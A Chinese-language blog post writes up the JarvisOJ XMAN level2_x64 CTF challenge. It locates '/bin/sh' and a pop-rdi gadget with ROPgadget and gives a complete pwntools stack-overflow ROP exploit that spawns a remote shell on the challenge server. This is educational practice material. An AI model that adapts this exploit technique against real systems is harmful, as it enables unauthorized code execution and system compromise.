 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel2_x64题解
date: 2018-08-10 13:10:00
author:     "许大仙"
catalog: true
tags:
    - CTF
---
```


## 一、解题思路 ##

checksec查看，是老样子，和level0的情况一样。

![checeksec查看](/img/assets/img/checksec2(64).jpg)

对比level0_x64和level2_x64反汇编后的结果

-  vulnerable_function都一样
-  main函数有所不同。

![对比图1](/img/assets/img/diff2.jpg)

发现main函数中有system的调用，system函数本身位于libc库中，是通过PLT+GOT表实现调用的，一方面可以通过ELF模块获得system_plt,间接调用system函数。

函数列表中不在有level0的callsystem。但是字符串列表也没有“/bin/sh”

![对比图2](/img/assets/img/sys_str2.jpg)

没有callsystem，但是我们找到了main中有call system[位于程序本身的.text节,NO PIE,代码段静态不变]，可是少了参数的设置。

我在window下IDA反汇编level2_x64是可以看到“/bin/sh”的，在.data段中。或者用ROPgadget工具也可以找到“/bin/sh”[可能是linux上低版本IDA，不能获取.data段的字符串]

![window下IDA反汇编level2_x64](/img/assets/img/win_bin.jpg)

> .data:0000000000600A90	00000008	C	/bin/sh

在地址0x0000000000600A90下，我的Ubuntu的IDA情况是：

![“bin/sh”字符串的某种数值格式](/img/assets/img/bin_str.jpg)
![“bin/sh”字符串](/img/assets/img/bin_str0.jpg)

![“bin/sh”字符串](/img/assets/img/bin_str00.jpg)

确实是存在的只是没有记录在string windows窗口里面。


> 如果在linux的IDA下要找.data节的字符情况，快捷键ctrl+S显示各个节，双击.data跳转到.data节

通过以上的分析就获得了调用system函数的固定地址和"/bin/sh"的固定地址["/bin/sh"位于程序本身的.data节，NO PIE情况下，数据节固定地址]

----------

万事俱备，就差把"/bin/sh"的地址pop到%rdi，作为system函数的参数。

这时候就要**引入搜索ROP链的工具ROPgadget.**[ROP链：以**ret**/call/jmp结尾的程序片段，用以实现指令片段执行流的衔接]

> ROPgadget --binary level2_x64 --only "pop|ret"|grep rdi     

> --binary引入二进制文件

![利用ROPgadget工具获得所需的汇编指令](/img/assets/img/ropgadget.jpg)

运气不错，搜索到了。pop %edi + ret，可以通过布置栈空间，利用pop %edi将"/bin/sh"的地址pop到%rdi，再ret将call system的地址pop到%rip中


注：ROPgadget工具不仅仅能搜索ROP链那么简单，还可以在程序的汇编代码中搜索字符串。

> ROPgadget --binary level2_x64 --string "/bin/sh"

![利用ROPgadget工具搜索字符串](/img/assets/img/ropstr0.jpg)



## 二、解题步骤 ##

```python
#!/usr/bin/puthon
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
re = remote("pwn2.jarvisoj.com",9882)

sys_addr = 0x000000000040063E 
#或者elf = ELF("./level2_x64")和sys_addr = elf.plt['system']来得到system函数调用地址
bin_addr = 0x0000000000600a90
pr_addr = 0x00000000004006b3

payload = 'a'*0x80 +'a'*0x8 + p64(pr_addr) + p64(bin_addr) + p64(sys_addr)
re.recvline()
re.send(payload)
#一开始在这里加了re.recvline()，以为要接收“hello world”，结果运行python xlevel2_x64.py就停止了。
#原因很显然，没有和远程靶机交互[即还未到达re.interactive()]，远程主机创建了一个shell子进程，一直等待着输入
#但是我们的攻击主机在等待接收recvline，于是就僵住了。
#所以要先交互interactive()，接入远程靶机的shell，进行输入ls+cat flag
re.interactive()
```


![获得靶机shell,拿到flag](/img/assets/img/ans2.jpg)



## 三、参考链接：

- https://blog.csdn.net/qq_38204481/article/details/80954747
- https://www.cnblogs.com/ZHijack/p/7940686.html